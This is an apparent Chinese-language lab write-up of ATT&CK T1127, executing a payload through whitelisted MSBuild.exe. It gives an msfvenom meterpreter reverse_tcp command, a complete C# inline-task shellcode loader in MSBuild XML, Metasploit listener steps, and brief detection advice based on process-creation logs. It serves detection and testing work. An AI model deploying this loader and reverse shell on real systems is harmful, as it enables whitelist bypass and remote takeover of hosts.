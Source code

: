 # T1127-win-基于白名单Msbuild.exe执行payload

## 来自ATT&CK的描述

MSBuild.exe（Microsoft Build Engine）是Visual Studio使用的软件构建平台。它采用XML格式的项目文件，定义了各种平台的构建要求和配置。

攻击者可能会使用MSBuild通过受信任的Windows实用程序来代理执行代码。.NET 4中引入的MSBuild内联任务功能允许将C＃代码插入到XML项目文件中。内联任务MSBuild将编译并执行内联任务。MSBuild.exe是一个签名的微软二进制文件，因此当它以这种方式使用时，它可以执行任意代码并绕过配置为允许MSBuild.exe执行的应用白名单防御。

## 测试案例

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

说明：Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe`

## 检测日志

windows 安全日志（需要自行配置）据称可以绕过360，待确认

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### MSF生成载荷

```bash
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

![载荷](https://camo.githubusercontent.com/80941d1f884f9dd054633cf080cf3b7945eacd9e6143f5b0f2deeb1042291cef/68747470733a2f2f696d672d626c6f672e6373646e696d672e636e2f32303230303431333133353131363339382e706e673f782d6f73732d70726f636573733d696d6167652f77617465726d61726b2c747970655f5a6d46755a33706f5a57356e6147567064476b2c736861646f775f31302c746578745f6148523063484d364c7939696247396e4c6d4e7a5a473475626d56304c334678587a4d324d7a4d304e4459302c73697a655f31362c636f6c6f725f4646464646462c745f3730)

#### XML文件设置

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
    <Target Name="Hello">
      <ClassExample />
    </Target>
    <UsingTask
      TaskName="ClassExample"
      TaskFactory="CodeTaskFactory"
      AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
      <Task>

        <Code Type="Class" Language="cs">
        <![CDATA[
    using System;
    using System.Runtime.InteropServices;
    using Microsoft.Build.Framework;
    using Microsoft.Build.Utilities;
    public class ClassExample :  Task, ITask
    {
      private static UInt32 MEM_COMMIT = 0x1000;
      private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
      [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
        UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
      [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
        UInt32 lpThreadAttributes,
        UInt32 dwStackSize,
        UInt32 lpStartAddress,
        IntPtr param,
        UInt32 dwCreationFlags,
        ref UInt32 lpThreadId
        );
      [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
        IntPtr hHandle,
        UInt32 dwMilliseconds
        );
      public override bool Execute()
      {
        byte[] shellcode = new byte[] {
你的payload};

          UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
      MEM_COMMIT, PAGE_EXECUTE_READWRITE);
          Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
          IntPtr hThread = IntPtr.Zero;
          UInt32 threadId = 0;
          IntPtr pinfo = IntPtr.Zero;
          hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
          WaitForSingleObject(hThread, 0xFFFFFFFF);
          return true;
      }
    }
        ]]>
        </Code>
      </Task>
    </UsingTask>
  </Project>
```



#### 设置监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

![监听](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144504285.png)

#### 靶机执行payload

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.xml
```

![加载payload](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144508669.png)

#### 查看会话

![反弹会话](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144513157.png)

## 测试留痕

![日志留痕](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144517430.png)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1127

<https://attack.mitre.org/techniques/T1127/>

利用msbuild.exe绕过应用程序白名单安全机制的多种姿势

<https://www.freebuf.com/articles/network/197706.html>

GreatSCT|MSF|白名单

<http://www.secist.com/archives/6082.html>

对亮神基于白名单Msbuild.exe执行payload第一季复现

<https://blog.csdn.net/ws13129/article/details/89736941>

检测白名单Msbuild.exe执行payload

<https://blog.csdn.net/qq_36334464/article/details/105487176>

基于白名单执行payload

<https://www.jianshu.com/p/cdb1867c6abb>
